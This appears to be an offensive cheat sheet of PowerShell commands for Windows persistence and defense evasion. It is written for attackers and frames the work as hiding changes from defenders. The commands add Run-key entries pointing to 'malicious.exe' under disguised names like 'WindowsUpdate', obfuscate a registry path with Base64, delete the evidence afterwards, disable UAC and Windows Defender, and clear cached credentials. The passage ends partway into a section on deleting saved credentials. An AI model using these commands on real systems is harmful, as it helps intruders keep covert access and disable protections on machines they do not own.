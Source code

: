 Modify registry keys to achieve persistence while hiding your changes from defenders.

**Hiding Evidence in the Registry**&#x20;

* Create a registry key to hide a startup program:

```powershell
New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "C:\Path\to\malicious.exe"
```

* Use obfuscated registry keys:

```powershell
$obfuscatedKey = "HKCU:\Software\Microsoft\" + [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("V2luZG93cw=="))
New-Item -Path $obfuscatedKey -Name "SecurityCenter" -Value "C:\Path\to\malicious.exe"
```

* Delete evidence of registry modifications:

```powershell
Remove-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate"
```

**Modifying Registry to Disable Security Features**&#x20;

* Disable UAC (User Account Control):

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0
```

* Disable Windows Defender through the registry:

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1
```

**Persisting via Registry Modification**&#x20;

* Create a registry key for persistence (example using `Run` key):

```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "UpdateService" -Value "C:\Path\to\malicious.exe" -PropertyType "String"
```

## Credential Dumping and Evasion&#x20;

**Clearing Cached Credentials**&#x20;

* Clear the Windows Credential Cache:

```powershell
cmdkey /list | ForEach-Object {cmdkey /delete:$_}
```

* Delete saved credentials from the registry:
